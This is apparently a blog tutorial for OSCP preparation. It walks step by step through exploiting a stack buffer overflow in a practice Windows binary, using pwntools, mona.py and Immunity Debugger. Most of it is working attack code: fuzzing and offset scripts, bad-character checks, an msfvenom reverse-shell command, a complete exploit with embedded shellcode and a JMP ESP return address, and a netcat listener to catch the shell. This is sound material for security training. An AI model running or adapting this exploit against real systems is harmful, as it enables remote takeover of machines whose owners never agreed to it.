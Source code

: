```yaml
---
layout: post
title:  "Easy stack buffer overflow steps"
date:   2020-02-05 08:07:19
categories: [buffer-overflow,oscp-prep]
comments: true
---
```



The blog is written in the assumstion you are already familiar with mona.py and Immunity debugger. If you are not familiar check out this cool blog [here](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)


**Easy steps for smashing stack buffer overflow:**

Fuzzing --> finding offset --> Finding bad character --> RET to 'JMP ESP' --> Generating shell code

<!--more-->
#### Step 1: Fuzzing

In this step, we just need to find the buffer length or offset which crash the application and overwrite the EIP.

```python
from pwn import *
p = connect('192.168.1.8', 31337, level='error')
p.sendline('A'*1000)
p.recvline()
p.close()
```

#### Step 2: Finding the exact offset

Add working folder in mona:

`!mona config -set workingfolder C:\logs\%p`

In immunity debugger,

`!mona pc 1000` --> This will create a pattern of 1000 bytes

> **Tip:** Also remember sometimes pattern shown in the immunity debugger console may be truncated. So always copy from the log


Modify the python code
```python
from pwn import *
pattern = "" # update the pattern here that you got from mona
p = connect('192.168.1.8', 31337, level='error')
p.sendline(pattern)
p.recvline()
p.close()
```

After executing the python script take the EIP value and execute the following command to find the exact offset:

`!mona findmsp <EIP VALUE>` (or)
`!mona pattern_offset <EIP VALUE>`


#### Step 3: Finding bad characters

To find badcharacter, first we need to create bytearray.

`!mona bytearray` --> This will generate the byte array starting from \x00 to \xff

Modify the python code 

```python
from pwn import *

offset = "A"*<offset_value> # Replace the <offset_value> with the offset value that we obtained from Step 2
bytearray = "" # update the bytearray here that you got from mona
p = connect('192.168.1.8', 31337, level='error')
p.sendline(offset + 'BBBB' + bytearray)
p.recvline()
p.close()
```

Execute the python script

Compare the generated bytearray and bytearray after the BBBB end in the exe file using mona.

!mona compare -f C:\logs\dobufferoverflowgood\bytearray.bin -a <address_after_BBBB>

Now this will display the badcharacter.

> **TIP**: \x00 will always be the bad character. Some times if the program requires some special character like new-line feed('\n'), then the corresponding hex value will also be added to the badcharacter list.

#### Step 4: "RET to JMP ESP"

This step is important to control the flow of the program. We need to find the `JMP ESP ` statement in the program and also its address should not contain the bad characters.

`!mona jmp -r esp -cpb "\x00\x0A" ` (or)

`msf-nasm_shell` and find the hex value of `JMP ESP` which is `\xff\xe4`

Then execute the command
`!mona find "\xff\xe4" -m <your.exe>`

Add the value in little endianess format to the python program .


#### Step 5: Generating the shell code

This is the final step. Use msfvenom to generate shell code.

`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f c -a x86 -b "\x00\x0A"`

So our final python program look like this for the binary dostackbufferoverflow.exe

```python
from pwn import *

#offset = 146
#badchar = \x00\x0a
#jmpesp = 080414c3
nops = "\x90"
offset = "A"*146

shellcode = (
"\xba\x84\xf5\xee\x0c\xda\xd9\xd9\x74\x24\xf4\x5f\x29\xc9\xb1"
"\x52\x83\xc7\x04\x31\x57\x0e\x03\xd3\xfb\x0c\xf9\x27\xeb\x53"
"\x02\xd7\xec\x33\x8a\x32\xdd\x73\xe8\x37\x4e\x44\x7a\x15\x63"
"\x2f\x2e\x8d\xf0\x5d\xe7\xa2\xb1\xe8\xd1\x8d\x42\x40\x21\x8c"
"\xc0\x9b\x76\x6e\xf8\x53\x8b\x6f\x3d\x89\x66\x3d\x96\xc5\xd5"
"\xd1\x93\x90\xe5\x5a\xef\x35\x6e\xbf\xb8\x34\x5f\x6e\xb2\x6e"
"\x7f\x91\x17\x1b\x36\x89\x74\x26\x80\x22\x4e\xdc\x13\xe2\x9e"
"\x1d\xbf\xcb\x2e\xec\xc1\x0c\x88\x0f\xb4\x64\xea\xb2\xcf\xb3"
"\x90\x68\x45\x27\x32\xfa\xfd\x83\xc2\x2f\x9b\x40\xc8\x84\xef"
"\x0e\xcd\x1b\x23\x25\xe9\x90\xc2\xe9\x7b\xe2\xe0\x2d\x27\xb0"
"\x89\x74\x8d\x17\xb5\x66\x6e\xc7\x13\xed\x83\x1c\x2e\xac\xcb"
"\xd1\x03\x4e\x0c\x7e\x13\x3d\x3e\x21\x8f\xa9\x72\xaa\x09\x2e"
"\x74\x81\xee\xa0\x8b\x2a\x0f\xe9\x4f\x7e\x5f\x81\x66\xff\x34"
"\x51\x86\x2a\x9a\x01\x28\x85\x5b\xf1\x88\x75\x34\x1b\x07\xa9"
"\x24\x24\xcd\xc2\xcf\xdf\x86\x2c\xa7\xde\x50\xc5\xba\xe0\x4d"
"\x49\x32\x06\x07\x61\x12\x91\xb0\x18\x3f\x69\x20\xe4\x95\x14"
"\x62\x6e\x1a\xe9\x2d\x87\x57\xf9\xda\x67\x22\xa3\x4d\x77\x98"
"\xcb\x12\xea\x47\x0b\x5c\x17\xd0\x5c\x09\xe9\x29\x08\xa7\x50"
"\x80\x2e\x3a\x04\xeb\xea\xe1\xf5\xf2\xf3\x64\x41\xd1\xe3\xb0"
"\x4a\x5d\x57\x6d\x1d\x0b\x01\xcb\xf7\xfd\xfb\x85\xa4\x57\x6b"
"\x53\x87\x67\xed\x5c\xc2\x11\x11\xec\xbb\x67\x2e\xc1\x2b\x60"
"\x57\x3f\xcc\x8f\x82\xfb\xec\x6d\x06\xf6\x84\x2b\xc3\xbb\xc8"
"\xcb\x3e\xff\xf4\x4f\xca\x80\x02\x4f\xbf\x85\x4f\xd7\x2c\xf4"
"\xc0\xb2\x52\xab\xe1\x96"
)
p = connect('192.168.1.8', 31337, level='error')
p.sendline(offset + '\xc3\x14\x04\x08' + nops*20 + shellcode)
p.recvline()

#print('Byte sent ',length)
p.close()
```

Spawn a listner to get shell of the victim machine

`nc -nlvp 4444`



